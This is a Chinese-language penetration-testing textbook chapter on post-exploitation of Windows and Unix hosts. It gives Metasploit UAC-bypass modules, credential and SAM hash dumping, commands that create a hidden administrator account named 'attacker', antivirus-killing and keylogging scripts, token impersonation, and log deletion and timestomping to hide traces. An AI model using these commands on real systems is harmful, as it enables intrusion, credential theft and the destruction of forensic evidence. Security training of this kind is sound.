


# 第五章：攻击后 - 对目标的行动

在现代黑客和系统攻击的世界中，攻击者不太关心利用，而是关心可以利用该访问权限做什么。这是攻击者实现攻击的全部价值的部分。

一旦系统被攻击，攻击者通常执行以下活动：

+   进行快速评估以表征本地环境（基础设施、连接性、帐户、目标文件的存在以及可以促进进一步攻击的应用程序）

+   定位并复制或修改感兴趣的目标文件，如数据文件（专有数据和财务信息）

+   创建额外的帐户并修改系统以支持后期利用活动

+   尝试通过捕获管理员或系统级凭据来垂直升级用于访问的特权级别

+   尝试通过受损系统将攻击转移到网络的其余部分来攻击其他数据系统（水平升级）

+   安装持久后门和隐蔽通道，以保持控制并与受损系统进行安全通信（在第六章中介绍了这一点，*后期利用-持久性*）

+   从受损系统中删除攻击的迹象

要成功，后期利用活动需要对目标操作系统和文件结构有全面的了解，以确保可以绕过保护控制。第一步是在本地网络环境中对受损系统进行侦察。

在本章中，您将学到以下内容：

+   如何绕过 Windows 用户账户控制（UAC）

+   如何对受损系统进行快速侦察

+   如何从受损系统获取敏感数据（掠夺）

+   如何创建额外的账户

+   如何使用 Metasploit Framework 进行后期利用活动

+   垂直和水平升级技术，以提高您的访问权限并增加受损账户的数量

+   如何使用反取证技术掩盖踪迹，防止发现受损

# 绕过 Windows 用户账户控制

在 Windows Vista 及更高版本中，微软引入了安全控制，限制进程以三种不同的完整性级别运行：高、中和低。高完整性进程具有管理员权限，中级进程以标准用户权限运行，低完整性进程受限，强制要求程序在受损时造成最小的损害。

要执行任何特权操作，程序必须以管理员身份运行，并遵守 UAC 设置。四个 UAC 设置如下：

+   **始终通知**：这是最严格的设置，当任何程序想要使用更高级别的权限时，它将提示本地用户。

+   **只在程序尝试对计算机进行更改时通知我**：这是默认的 UAC 设置。当本机 Windows 程序请求更高级别的权限时，它不会提示用户。但是，如果第三方程序想要提升权限，它将提示。

+   **只在程序尝试对计算机进行更改时通知我（不使我的桌面变暗）**：这与默认设置相同，但在提示用户时不会使系统的监视器变暗。

+   **从不通知**：此选项将系统恢复到 Vista 之前的状态。如果用户是管理员，所有程序都将以高完整性运行。

因此，在利用后立即，测试人员（和攻击者）希望了解以下两件事：

+   系统识别的用户是谁？

+   他们在系统上有什么权限？

可以使用以下命令确定：

```
C:\> whoami /groups

```

受损系统正在高完整性环境中运行，如下截图中的“强制标签\高强制级别标签”所示：


如果“标签”是“强制标签\中等强制级别”，测试人员需要将标准用户权限提升为管理员权限，以便许多后期利用步骤能够成功。

提升权限的第一个选项是从 Metasploit 运行`exploit/windows/local/ask`，这将启动`RunAs`攻击。这将创建一个可执行文件，当调用时，将运行一个程序来请求提升的权限。可执行文件应使用`EXE::Custom`选项创建，或者使用`Veil-Evasion`加密，以避免本地杀毒软件的检测。

`RunAs`攻击的缺点是用户将收到警告，即来自未知发布者的程序想要对计算机进行更改。此警报可能导致特权升级被识别为攻击。

如果系统的当前用户属于管理员组，并且 UAC 设置为默认的“仅在程序尝试更改计算机时通知我”（如果设置为“始终通知”则不起作用），攻击者将能够使用 Metasploit `exploit/windows/local/bypassuac`模块来提升其权限。

`bypassuac`模块在目标系统上创建多个工件，并且大多数防病毒软件都能识别。但是，`exploit/windows/local/bypassuac_inject`模块将可执行文件直接放入运行内存中的反射 DLL 中，并且不会触及硬盘，最大程度地减少了被防病毒软件检测到的机会。

尝试绕过 UAC 控制时的一些注意事项如下：

+   绕过 UAC 攻击不适用于 Windows Vista，用户需要确认每个特权访问。

+   Windows 8 仍然容易受到这种攻击。但是，Metasploit Framework 攻击目前不适用于 Windows 8.1。如果尝试，用户将被提示点击“确定”按钮，然后攻击才能获得提升的特权——这几乎不是一个隐秘的攻击。攻击者可以通过选择使用`exploit/windows/local/ask`来修改攻击，这将提高成功的机会。

+   在考虑系统间移动（水平/横向升级）时，如果当前用户是域用户，并且在其他系统上具有本地管理员特权，您可以使用现有的身份验证令牌来获取访问权限并绕过 UAC。实现这一点的常见攻击是 Metasploit `exploit/windows/local/current_user_psexec`。

# 对受损系统进行快速侦察

一旦系统被攻击，攻击者需要获取有关该系统、其网络环境、用户和用户帐户的关键信息。通常，他们将从 shell 提示符输入一系列命令或调用这些命令的脚本。

如果受损系统基于 Unix 平台，则典型的本地侦察命令将包括以下内容：

| 命令 | 描述 |
| --- | --- |
| `/etc/resolv.conf` | 使用`copy`命令访问和查看系统当前的 DNS 设置。因为它是一个具有读权限的全局文件，所以在访问时不会触发警报。 |
| `/etc/passwd`和`/etc/shadow` | 这些是包含用户名和密码哈希的系统文件。具有根级访问权限的人可以复制它，并可以使用诸如 John the Ripper 之类的工具来破解密码。 |
| `whoami and who -a` | 识别本地系统上的用户。 |
| `ifconfig -a`，`iptables -L -n`和`netstat -r` | 提供网络信息。`ifconfig -a`提供 IP 地址详细信息，`iptables -L -n`列出本地防火墙中保存的所有规则（如果存在），`netstat -r`显示内核维护的路由信息。 |
| `uname -a` | 打印内核版本。 |
| `ps aux` | 打印当前运行的服务、进程 ID 和其他信息。 |
| `dpkg -l yum list &#124; grep installed`和`dpkg -l rpm -qa --last &#124; head` | 识别已安装的软件包。 |

这些命令包含了可用选项的简要概述。有关如何使用它的完整信息，请参考相应命令的帮助文件。

对于 Windows 系统，将输入以下命令：

| 命令 | 描述 |
| --- | --- |
| `whoami /all` | 列出当前用户、SID、用户特权和组。 |
| `ipconfig /all`和`ipconfig /displaydns` | 显示有关网络接口、连接协议和本地 DNS 缓存的信息。 |
| `netstat -bnao`和`netstat -r` | 列出端口和连接以及相应的进程（`-b`）到无查找（`-n`），所有连接（`-a`）和父进程 ID（`-o`）。`-r`选项显示路由表。它们需要管理员权限才能运行。 |
| `net view` 和 `net view /domain` | 查询 NBNS/SMB 以定位当前工作组或域中的所有主机。使用 `/domain` 可以获取主机可用的所有域。 |
| `net user /domain` | 列出定义域中的所有用户。 |
| `net user %username% /domain` | 如果用户是查询的域的一部分，则获取有关当前用户的信息（如果您是本地用户，则不需要 `/domain`）。它包括登录时间、上次更改密码的时间、登录脚本和组成员资格。 |
| `net accounts` | 打印本地系统的密码策略。要打印域的密码策略，请使用 `net accounts /domain`。 |
| `net localgroup administrators` | 打印管理员本地组的成员。使用 `/domain` 开关获取当前域的管理员。 |
| `net group "Domain Controllers" /domain` | 打印当前域的域控制器列表。 |
| `net share` | 显示当前共享的文件夹，这些文件夹中共享的数据可能没有足够的访问控制，并显示它们指向的路径。 |

## 使用 WMIC 脚本语言

在较新的系统上，攻击者和渗透测试人员利用内置的脚本语言，例如**Windows 管理规范命令行**（**WMIC**），这是一个用于简化访问 Windows 管理的命令行和脚本接口。如果受损系统支持 WMIC，则可以使用多个命令来收集信息。参考以下表格：

| 命令 | 描述 |
| --- | --- |
| `wmic nicconfig get ipaddress,macaddress` | 获取 IP 地址和 MAC 地址 |
| `wmic computersystem get username` | 验证被 compromise 的帐户 |
| `wmic netlogin get name, lastlogon` | 确定谁最后使用了这个系统以及他们上次登录的时间 |
| `wmic desktop get screensaversecure, screensavertimeout` | 确定屏幕保护程序是否受密码保护以及超时时间 |
| `wmic logon get authenticationpackage` | 确定支持哪些登录方法 |
| `wmic process get caption, executablepath, commandline` | 识别系统进程 |
| `wmic process where name="process_name" call terminate` | 终止特定进程 |
| `wmic os get name, servicepackmajorversion` | 确定系统的操作系统 |
| `wmic product get name, version` | 识别已安装的软件 |
| `wmic product where name="name' call uninstall /nointeractive` | 卸载或移除已定义的软件包 |
| `wmic share get /ALL` | 识别用户可访问的共享 |
| `wmic /node:"machinename" path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"` | 远程启动 RDP |
| `wmic nteventlog get path, filename, writeable` | 查找所有系统事件日志，并确保它们可以被修改（在覆盖痕迹时使用） |

PowerShell 是建立在.NET Framework 上的脚本语言，从控制台运行，使用户可以访问 Windows 文件系统和诸如注册表之类的对象。它默认安装在 Windows 7 操作系统和更高版本上。PowerShell 通过允许在本地和远程目标上使用 shell 集成和互操作性，扩展了 WMIC 提供的脚本支持和自动化。

PowerShell 为测试人员提供了对受损系统上的 shell 和脚本语言的访问。由于它是 Windows 操作系统的本机功能，其命令的使用不会触发防病毒软件。当在远程系统上运行脚本时，PowerShell 不会写入磁盘，从而绕过防病毒软件和白名单控制（假设用户已允许使用 PowerShell）。

PowerShell 支持许多内置函数，称为 cmdlet。PowerShell 的一个优点是 cmdlet 被别名为常见的 Unix 命令，因此输入`ls`命令将返回典型的目录列表，如下面的屏幕截图所示：

！使用 WMIC 脚本语言

PowerShell 是一种功能丰富的语言，能够支持非常复杂的操作；建议用户花时间熟悉其使用。以下表格描述了一些可以在受损后立即使用的较简单的命令：

| 命令 | 描述 |
| --- | --- |
| `Get-Host &#124; Select Version` | 识别受害者系统使用的 PowerShell 版本。一些 cmdlet 在不同版本中被添加或调用。 |
| `Get-Hotfix` | 识别已安装的安全补丁和系统热修复。 |
| `Get-Acl` | 识别组名和用户名。 |
| `Get-Process, Get-Service` | 列出当前的进程和服务。 |
| `gwmi win32_useraccount` | 调用 WMI 列出用户帐户。 |
| `Gwmi_win32_group` | 调用 WMI 列出 SID、名称和域组。 |

渗透测试人员可以将 Windows 本机命令、DLL、.NET 函数、WMI 调用和 PowerShell cmdlet 结合在一起，创建扩展名为`.ps1`的 PowerShell 脚本。

### 提示

在最近的渗透测试中，我们被禁止在客户系统上安装任何可执行软件。我们在一个受损的系统上使用了一个 PowerShell 键盘记录器来获取管理员级别的凭据，然后侵入了网络上的大多数系统。最有效的利用和后利用脚本，包括键盘记录器，都是 Nikhil Mittal 的`Nishang`包的一部分（[`code.google.com/p/nishang/downloads/detail?name=nishang_0.3.0.zip`](https://code.google.com/p/nishang/downloads/detail?name=nishang_0.3.0.zip)）。

侦察还应扩展到本地网络。由于您是“盲目”的，您需要创建一个可以与受损主机通信的活动系统和子网的地图。首先，在 shell 提示符中输入`IFCONFIG`（基于 Unix 的系统）或`IPCONFIG /ALL`（Windows 系统）。这将允许攻击者确定以下内容：

+   是否启用了 DHCP 寻址。

+   本地 IP 地址，这也将识别至少一个活动子网。

+   网关 IP 地址和 DNS 服务器地址。系统管理员通常在整个网络上遵循编号约定，如果攻击者知道一个地址，比如网关服务器`172.16.21.5`，他们将 ping 地址，比如`172.16.20.5`，`172.16.22.5`等等，以找到其他子网。

+   用于利用**Active Directory**账户的域名。

如果攻击系统和目标系统都使用 Windows，则可以使用`net view`命令枚举网络上的其他 Windows 系统。攻击者使用`netstat -rn`命令来查看路由表，其中可能包含对感兴趣的网络或系统的静态路由。

可以使用`nmap`扫描本地网络以嗅探 ARP 广播。此外，Kali 还有几个工具可用于 SNMP 端点分析，包括`nmap`、`onesixtyone`和`snmpcheck`。

部署数据包嗅探器以映射流量将帮助您识别主机名、活动子网和域名。如果未启用 DHCP 寻址，它还将允许攻击者识别任何未使用的静态 IP 地址。Kali 预配置了 Wireshark（基于 GUI 的数据包嗅探器），但您也可以在后利用脚本中或从命令行中使用`tshark`，如下面的屏幕截图所示：

！使用 WMIC 脚本语言

# 查找和获取敏感数据-掠夺目标

术语**掠夺**（有时被称为**偷窃**）是黑客成功侵入系统后，将自己视为海盗，竞相赶到目标地点窃取或破坏尽可能多的数据的遗留物。这些术语作为参考，仍然存在，用于指代在实现利用的目标后，更加谨慎地窃取或修改专有或财务数据的做法。

然后，攻击者可以专注于次要目标——提供信息以支持额外攻击的系统文件。次要文件的选择将取决于目标的操作系统。例如，如果受损的系统是 Unix，则攻击者还将针对以下目标：

+   系统和配置文件（通常在`/etc`目录中，但根据实现方式，它们可能在`/usr/local/etc`或其他位置）

+   密码文件（`/etc/password`和`/etc/shadow`）

+   `.ssh`目录中的配置文件和公钥/私钥

+   `.gnupg`目录中可能包含的公钥和私钥环

+   电子邮件和数据文件

在 Windows 系统中，攻击者将针对以下目标：

+   系统内存，可用于提取密码、加密密钥等。

+   系统注册表文件

+   包含密码的**安全账户管理器**（**SAM**）数据库的哈希版本，或者可能在`%SYSTEMROOT%\repair\SAM`和`%SYSTEMROOT%\System32\config\RegBack\SAM`中找到的 SAM 数据库的其他版本

+   用于加密的任何其他密码或种子文件

+   电子邮件和数据文件

### 提示

不要忘记查看包含临时项目的文件夹，例如附件。例如，`UserProfile\AppData\Local\Microsoft\Windows\Temporary Internet Files\`可能包含感兴趣的文件、图像和 Cookie。

如前所述，系统内存对于任何攻击者来说包含大量信息。因此，通常是您需要获取的优先文件。系统内存可以从以下几个来源下载为单个镜像文件：

+   通过上传工具到受损系统，然后直接复制内存（工具包括**Belkasoft RAM capturer**、**MandiantMemoryze**和**MonsolsDumpIt**）。

+   通过复制 Windows 休眠文件`hiberfil.sys`，然后使用 Kali 中的`取证`菜单中的 Volatility 来解密和分析文件。Volatility 是一个框架，用于分析系统 RAM 和其他包含系统内存的文件的内存转储。它依赖于用 Python 编写的插件来分析内存并提取数据，如加密密钥、密码、注册表信息、进程和连接信息。

+   通过复制虚拟机并将 VMEM 文件转换为内存文件。

### 提示

如果您将设计用于捕获内存的程序上传到受损系统，可能会被防病毒软件识别为恶意软件。大多数防病毒软件应用程序会识别内存获取软件的哈希签名和行为，并在内存内容面临泄露风险时发出警报以保护敏感内容。获取软件将被隔离，并且目标将收到警报，提醒他们受到攻击。

为了避免这种情况，使用 Metasploit Framework 在目标的内存中完全运行可执行文件，使用以下命令：

```
meterpreter> execute -H -m -d calc.exe -f <memoryexecutable + parameters>
```

先前的命令将`calc.exe`作为虚拟可执行文件执行，但上传内存获取可执行文件以在其进程空间中运行。

可执行文件不会显示在诸如任务管理器之类的进程列表中，使用数据取证技术进行检测要困难得多，因为它没有写入磁盘。此外，它将避开系统的防病毒软件，因为通常不会扫描内存空间以寻找恶意软件。

一旦物理内存被下载，就可以使用 Volatility Framework 对其进行分析，这是一组用于法庭取证分析内存的 Python 脚本集。如果操作系统受支持，Volatility 将扫描内存文件并提取以下内容：

+   足以将图像与其源系统*联系*起来的图像信息和系统数据。

+   运行的进程、加载的 DLL、线程、套接字、连接和模块。

+   打开的网络套接字和连接，以及最近打开的网络连接。

+   内存地址，包括物理和虚拟内存映射。

+   LM/NTLM 哈希和 LSA 秘密。**LanMan**（**LM**）密码哈希是微软最初尝试保护密码的方法。多年来，它变得很容易破解，并将哈希转换回实际密码。**NT LanMan**（**NTLM**）哈希是更近期的，对攻击更有韧性。然而，它们通常与 NTLM 版本一起存储，以实现向后兼容性的目的。**本地安全机构**（**LSA**）存储本地密码的“秘密”：远程访问（有线或无线）、VPN、自动登录密码等。系统上存储的任何密码都是脆弱的，特别是如果用户重复使用密码。

+   存储在内存中的特定正则表达式或字符串。

使用感染了 Zeus 恶意软件的系统的示例图像（[`code.google.com/p/volatility/wiki/SampleMemoryImages`](https://code.google.com/p/volatility/wiki/SampleMemoryImages)），我们将使用 Volatility Framework 来提取加密的 LanMan 密码哈希。

第一步是使用以下命令确定图像类型和操作系统：

```
root@kali:usr/share/volatility# python vol.py imageinfo -f
  /root/Desktop/zeus.vmem 

```

上一条命令的执行如下截图所示：


**hivelist**插件将在调用以下命令时打印出各个注册表蜂巢的初始虚拟内存位置：

```
root@kali:usr/share/volatility#python vol.py hivelist -f
  /root/Desktop/zeus.vmem 

```

上一条命令的执行如下截图所示：


为了转储哈希，需要 SAM 和 SYSTEM 蜂巢的初始虚拟内存位置。使用以下命令，结果被导入到逗号分隔的文件中，以便由密码破解应用程序直接导入：

```
root@kali:usr/share/volatility#python vol.py hashdump -f 
  /root/Desktop/zeus.vmem -y 0xe101b008 -s 0xe1544008 
  >>/root/Desktop/hashdump.csv 

```

上一条命令的执行如下截图所示：


孤立的 LM 哈希可以使用 Hashcat、John the Ripper、Ophcrack 和 Rainbow Tables 进行破解。

# 创建额外的帐户

以下命令是高度侵入性的，通常会在事件响应过程中被系统所有者检测到。然而，它们经常被攻击者植入，以转移对更持久的访问机制的注意力。请参阅以下表格：

| 命令 | 描述 |
| --- | --- |
| `net user attacker password /add` | 创建一个名为`attacker`的新本地帐户，密码为`password`。 |
| `net localgroup administrators attacker /add` | 将新用户`attacker`添加到本地管理员组。在某些情况下，命令将是`net localgroup administrators /add attacker`。 |
| `net user username /active:yes /domain` | 将非活动或禁用的帐户更改为活动状态。在小型组织中，这将引起注意。密码管理不善的大型企业可能有 30%的密码被标记为“非活动”，因此这可能是一种获得帐户的有效方式。 |
| `net share name$=C:\ /grant:attacker,FULL /unlimited` | 将`C:`（或其他指定的驱动器）共享为 Windows 共享，并授予用户（攻击者）对该驱动器上所有内容的完全访问或修改权限。 |

如果创建一个新用户帐户，当有人登录到受损系统的欢迎屏幕时会被注意到。要使帐户不可见，您需要使用以下`REG`命令从命令行修改注册表：

```
REG ADD 
  HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion
  \WinLogon\SpecialAccounts\UserList /V account_name /
  T REG_DWORD /D 0 

```

这将修改指定的注册表键以隐藏用户的帐户(`/V`)。同样，根据目标操作系统的具体版本可能有特殊的语法要求，因此首先确定 Windows 版本，然后在受控测试环境中验证它，然后再对目标实施。

# 使用 Metasploit 进行后渗透活动

Metasploit 被开发用于支持利用和后渗透活动。当前版本包含大约 200 个模块，简化了后渗透活动。我们将回顾一些最重要的模块。

在下面的屏幕截图中，我们成功地利用了 Windows XP 系统（这是一个经常用于验证`meterpreter`更复杂方面的“经典”攻击）。初始步骤是立即对网络和受损系统进行侦察。

初始的`meterpreter` shell 很脆弱，容易在较长时间内失败。因此，一旦系统被利用，我们将迁移 shell 并将其绑定到更稳定的进程上。这也使得检测利用更加困难。

在`meterpreter`提示符下，输入`ps`以获取正在运行的进程列表，如下面的屏幕截图所示：


`ps`命令还返回每个进程的完整路径名。这在之前的屏幕截图中被省略了。`ps`列表确定`c:\windows\Explorer.EXE`正在运行。在这种特殊情况下，它被标识为进程 ID`1460`，如下面的屏幕截图所示。由于这是一个通常稳定的应用程序，我们将把 shell 迁移到该进程。


现在我们已经与远程系统建立了稳定的 shell 连接，我们将使用支持后渗透活动的`meterpreter`脚本。

要识别的第一个参数之一是：我们是否在虚拟机上？在受损系统和攻击者之间打开`meterpreter`会话后，发出命令`run checkvm`，如下面的屏幕截图所示。返回的数据表明`这是一个 VMware 虚拟机`。


通过`meterpreter`可用的一些最重要的后渗透模块在下表中描述：

| 命令 | 描述 |
| --- | --- |
| `run checkvm` | 确定虚拟机是否存在。 |
| `run getcountermeasure` | 检查受损系统的安全配置（防病毒软件、防火墙等）。 |
| `run killav` | 禁用运行在受损系统上的大多数防病毒服务。这个脚本经常过时，成功应该手动验证。 |
| `run hostsedit` | 允许攻击者向 Windows `HOSTS`文件添加条目。这可以将流量转向不同的站点（一个假站点），该站点将下载其他工具或确保防病毒软件无法连接到互联网或本地服务器以获取签名更新。 |
| `run winenum` | 执行受损系统的命令行和 WMIC 特性描述。它从注册表和 LM 哈希中转储重要的键。 |
| `run scraper` | 收集其他脚本未收集的全面信息，例如整个 Windows 注册表。 |
| `run upload` 和 `run download` | 允许攻击者在目标系统上上传和下载文件。 |
| `run keyscan_start`、`run keyscan_stop` 和 `run keyscan_dump` | 在受损系统上启动和停止本地键盘记录器。当数据收集完成时，收集的文本数据将被转储到攻击者的系统上。 |
| `run getprivs` | 尝试启用当前进程可用的所有权限。对于权限提升非常有用。 |
| `run getsystem` | 尝试将权限提升到 Windows `SYSTEM`级别；授予用户最大可能的权限提升。 |
| `Run hashdump` | 转储攻击者系统上 SAM 数据库的内容。 |
| `run getgui` | 允许用户启用 RDP（`getgui -e`）并设置用户名和密码（`getgui -u`）。`gettelnet`脚本可以以相同的方式运行。 |
| `run vnc` | 为攻击者提供对受损系统的远程 GUI（VNC）访问。 |

最有效的`meterpreter`脚本之一是**Windows 枚举器**（**winenum**）。如下图所示，它使用命令行和 WMIC 调用来完全描述目标系统：


除了枚举，`winenum`脚本还会转储注册表并收集系统哈希以便解密，如下面的屏幕截图所示：


`meterpreter`附带了几个支持复杂功能的有用库。例如，`espia`库支持通过以下命令对受损系统进行截屏：

```
meterpreter> use espia
Loading extension espia ... success.
meterpreter> screenshot /Desktop/target.jpeg
Screenshot saved to: /root/xsWoDDbW.jpeg

```

`stdapi`库允许远程攻击者通过收集受损系统的音频和视频来操纵网络摄像头，并将数据传送回攻击者。

# 提升受损主机上的用户权限

通常可以获得对系统的“访客”或“用户”访问权限。攻击者通常受到降低的权限级别的限制，因此，常见的后渗透活动是从“访客”提升访问权限到“用户”再到“管理员”，最终到“系统”。获得访问权限的这种上升过程通常被称为**垂直提升**。

用户可以实施多种方法来获取高级访问凭据，包括以下内容：

+   使用网络嗅探器和/或键盘记录器来捕获传输的用户凭据（`dsniff`旨在从实时传输或从 Wireshark 或 tshark 会话保存的`pcap`文件中提取密码）。

+   搜索本地存储的密码。一些用户会在电子邮件文件夹中收集密码（通常称为“密码”）。由于密码重用和简单的密码构建系统很常见，因此在提升过程中找到的密码可以被使用。

NirSoft（[www.nirsoft.net](http://www.nirsoft.net)）制作了几个免费工具，可以使用`meterpreter`上传到受损系统，从操作系统和缓存密码的应用程序（邮件、远程访问软件、FTP 和 Web 浏览器）中提取密码。

+   使用`meterpreter`或应用程序（如**hobocopy**、**fgdump**和**pwdump**）转储`SAM`和`SYSKEY`文件（这些可以使用`meterpreter`上传到目标）。

+   使用诸如进程注入器（[www.tarasco.org/security/Process_Injector/](http://www.tarasco.org/security/Process_Injector/)）之类的工具，直接将恶意代码注入到在`SYSTEM`级别运行的服务中。

+   当一些应用程序加载时，它们会按特定顺序读取**动态链接库**（**DLL**）文件。可以创建一个与合法 DLL 同名的伪造 DLL，将其放置在特定目录位置，并让应用程序加载和执行它，从而使攻击者获得提升的权限。已知有几个应用程序容易受到此类 DLL 劫持的影响（[www.exploit-db.com/dll-hijacking-vulnerable-applications/](http://www.exploit-db.com/dll-hijacking-vulnerable-applications/)）。

+   应用使用缓冲区溢出或其他手段来提升权限的漏洞利用。

+   执行`getsystem`脚本，将自动将管理员权限提升到`SYSTEM`级别，从`meterpreter`提示符中执行。

### 提示

Windows 7 和 2008 不允许从不受信任的系统远程访问管理共享，如`ADMIN$`、`C$`等。这些共享可能需要`meterpreter`脚本（如 incognito）或支持通过 SMB 进行攻击。为了解决这个问题，将`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`添加到注册表，并添加一个名为`LocalAccountTokenFilterPolicy`的新 DWORD（32 位）键，并将值设置为`1`。

# 使用隐身模式重播身份验证令牌

一个特别有趣的`meterpreter`库是`incognito`，它允许你模拟和重播用户令牌。令牌是临时密钥，允许你访问网络和系统资源，而无需在每次特定访问时提供密码或其他凭据。这些令牌在系统重启之前会持续存在。

一旦你妥协了一个系统，你可以使用令牌模拟之前创建令牌的用户，而无需破解用户的密码。这种令牌模拟可能允许攻击者提升他们的权限。

在提示符中输入以下内容：

```
use incognito

```

执行前面的命令的结果如下截屏所示：


第一步是识别受损系统上存在的所有有效令牌。你能看到的令牌数量将取决于最初用于妥协目标系统的访问级别。

你还会看到有两种类型的令牌，如下面的截屏所示。委派令牌支持交互式登录（例如，本地登录系统或通过远程桌面登录）。模拟令牌用于非交互式会话，例如当系统连接到网络驱动器时。


如你所见，一个委派令牌被识别为`管理员`。如果我们可以模拟这个令牌，我们就可以获得它的权限。

在`incognito`中调用`impersonate_token`命令（如下面的截屏所示），请注意命令中需要两个反斜杠：


现在，如果我们从`meterpreter`提示符中运行 shell 命令并输入`whoami`，它会将我们标识为我们模拟的管理员令牌。

## 使用 Windows 凭据编辑器操纵访问凭据

**Windows 凭据编辑器**（**WCE**）—[`www.ampliasecurity.com/research/wcefaq.html`](http://www.ampliasecurity.com/research/wcefaq.html）—是`incognito`脚本的改进版本。它有 32 位和 64 位版本，以及声称可在所有 Windows 平台上工作的“通用”版本。WCE 允许用户做以下事情：

+   对 Windows 系统执行传递哈希攻击

+   从系统内存中收集 NTLM 凭据（带或不带代码注入）

+   从 Windows 系统收集 Kerberos 票据

+   使用收集到的 Kerberos 票据在其他 Windows 或 Unix 系统上获取访问权限

+   转储 Windows 系统存储的明文密码（见下一节）

要使用 WCE，从`meterpreter`提示符上传可执行文件到受损系统。然后，启动交互式 shell 并执行 WCE。如下面的截屏所示，`-w`选项轻松提取了明文`管理员`密码：



## 从管理员升级到 SYSTEM

管理员权限允许攻击者创建和管理帐户，并访问系统上可用的大部分数据。然而，一些复杂的功能要求请求者具有`SYSTEM`级别的访问权限。有几种方法可以继续将权限升级到`SYSTEM`级别。最常见的方法是使用`at`命令，Windows 用它来安排特定时间的任务。`at`命令始终以`SYSTEM`级别的权限运行。

使用交互式 shell（在`meterpreter`提示符下输入`shell`），打开命令提示符并确定受损系统的本地时间。如果时间是下午 12:50（`at`函数使用 24 小时制），则安排一个交互式命令 shell 在稍后的时间运行，如下面的屏幕截图所示：


在安排`at`任务运行后，在`meterpreter`提示符下重新确认您的访问权限，如下面的屏幕截图所示：


如您所见，权限已被提升到`SYSTEM`级别。

# 使用水平升级访问新账户

在水平升级中，攻击者保留其现有凭据，但使用它们来操作不同用户的帐户。例如，受损系统 A 上的用户攻击系统 B 上的用户，试图对其进行攻击。

当我们审查一些攻击向量时，我们将使用水平升级攻击。

# 掩盖你的行踪

一旦系统被利用，攻击者必须掩盖自己的行踪，以避免被发现，或者至少使事件的重建对防御者更加困难。

攻击者可以完全删除 Windows 事件日志（如果它们正在被活跃地保留在受损的服务器上）。这可以通过系统的命令行和以下命令来完成：

```
C:\ del %WINDIR%\*.log /a/s/q/f

```

该命令指示删除所有日志（`/a`），包括所有子文件夹中的文件（`/s`）。`/q`选项禁用所有查询，要求*是*或*否*的响应，`/f`选项强制删除文件，使恢复更加困难。

这也可以通过在`meterpreter`提示符下发出`clearev`命令来完成。这将清除目标系统的应用程序、系统和安全日志（此命令没有选项或参数）。

通常情况下，删除系统日志不会触发用户的任何警报。事实上，大多数组织配置日志记录是如此随意，以至于缺少系统日志被视为可能发生的情况，它们的丢失并不会受到深入调查。

Metasploit 还有一个额外的技巧——`timestomp`选项允许攻击者更改文件的 MACE 参数（文件的最后修改时间、访问时间、创建时间和 MFT 条目修改时间）。一旦系统被攻破并建立了`meterpreter` shell，就可以调用`timestomp`，如下面的屏幕截图所示：


例如，受损系统的`C:`包含一个名为`README.txt`的文件。该文件的 MACE 值表明它是最近创建的，如下面的屏幕截图所示：


如果我们想隐藏这个文件，可以将它移动到一个杂乱的目录，比如`windows\system32`。然而，任何按照创建日期或其他基于 MAC 的变量对该目录的内容进行排序的人都会发现这个文件。因此，要将`cmd.exe`文件的 MAC 信息复制到`README.txt`文件中，请使用以下命令：

```
meterpreter>timestomp README.txt -f 
  C:\\WINDOWS\system32\cmd.exe 

```

我们还可以选择使用`-b`开关来清除 MAC 数据。如下面的屏幕截图所示，我们选择将 MAC 数据更改为未来的时间（2106 年）。



这样的更改会引起调查人员的注意，但他们将无法使用数据进行法证分析。原始 Windows 平台的属性是什么样子的？如果系统管理员调用文件的系统属性，创建和修改日期已经改回到 1601 年（微软用作初始系统启动时间的日期）。相比之下，文件的最后访问时间保持准确。您可以在以下截图中看到：


尽管这是预期行为，但它仍然为调查人员提供线索。为了完全破坏调查，攻击者可以使用以下命令递归更改目录或特定驱动器上的所有设置时间：

```
meterpreter>timestompC:\\ -r

```

解决方案并不完美。很明显发生了攻击。此外，时间戳可能会保留在硬盘的其他位置，并可供调查人员访问。如果目标系统正在使用入侵检测系统（如 Tripwire）积极监控系统完整性的变化，将生成`timestomp`活动的警报。因此，在真正需要隐蔽方法时，销毁时间戳的价值有限。

# 摘要

在这一章中，我们关注的是目标系统被利用后紧随其后的行动。我们回顾了对服务器和本地环境进行的初步快速评估。我们还学会了如何识别和定位感兴趣的目标文件，创建用户账户，执行垂直升级以提高访问权限，并消除入侵迹象。

在下一章中，我们将学习如何实施持久后门以保留访问权限，并学习支持与被攻击系统进行隐蔽通信的技术。

